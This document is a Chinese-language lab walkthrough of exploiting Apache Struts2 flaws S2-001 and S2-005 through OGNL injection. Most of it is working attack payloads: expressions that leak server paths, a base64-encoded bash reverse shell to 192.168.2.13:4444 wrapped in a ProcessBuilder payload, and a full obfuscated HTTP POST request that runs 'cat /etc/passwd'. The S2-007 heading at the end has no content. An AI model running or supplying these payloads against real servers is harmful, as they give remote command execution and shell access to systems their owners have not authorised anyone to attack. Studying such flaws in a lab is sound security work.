








# structs2-001(远程命令执行)

### 漏洞背景

> 该漏洞因为用户提交表单数据并且验证失败时,后端会将用户之前提交的参数值使用`OGNL`表达式`%{value}`进行解析,让后重新填充到对应的表单数据中.例如注册或登录页面,提交失败后端一般会默认返回之间提交的数据,由于后端使用`%{value}`对提交的数据执行了一次`OGNL`表达式解析,所以可以直接构造payload进行命令执行

### 开始攻击

- 构造`OGNL`表达式



- 发现表达式被执行了



- 尝试tomcat执行路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```



- 获取的路径`tomcatBinDir{/usr/local/tomcat}`

- 尝试获取网站路径

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```



- 开始尝试反弹`shell`

```bash
# 使用base64编码
bash -i >& /dev/tcp/192.168.2.13/4444 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx

#构造payload
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



- 反弹成功



****

# structs2-005(远程命令执行)

> s2-005

- `burp抓包`看一下



- 构造payload,发送数据包(这里需要修改请求方法为post)

```http
POST /example/HelloWorld.action HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=D0222EC6F06798698F5BADA80CA06033
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 666

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```



- `%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27`->`cat /etc/passwd`

****

# structs2-007

